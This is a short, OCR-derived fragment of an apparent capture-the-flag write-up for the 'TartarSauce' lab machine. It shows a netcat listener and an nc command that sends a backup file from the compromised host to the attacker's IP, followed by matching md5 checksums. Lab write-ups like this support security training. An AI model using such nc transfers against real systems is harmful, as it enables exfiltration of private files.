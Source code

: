 
www-data@TartarSauce:/dev/shm$ cat /var/backups/onuma_backup_test.txt
------------------------------------------------------------------------
Auto backup backuperer backup last ran at : Fri Jan 15 10:10:02 EST 2021
------------------------------------------------------------------------


 nc -lvnp 8888 > backup.zip


 nc 10.10.14.6 8888 < /var/backups/onuma-www-dev.bak


md5sum backup.zip 
88e373fe9719ac58bd96f159da920a72  backup.zip


www-data@TartarSauce:/dev/shm$ md5sum /var/backups/onuma-www-dev.bak
88e373fe9719ac58bd96f159da920a72  /var/backups/onuma-www-dev.bak


![](2021-01-15-16-16-19.png)
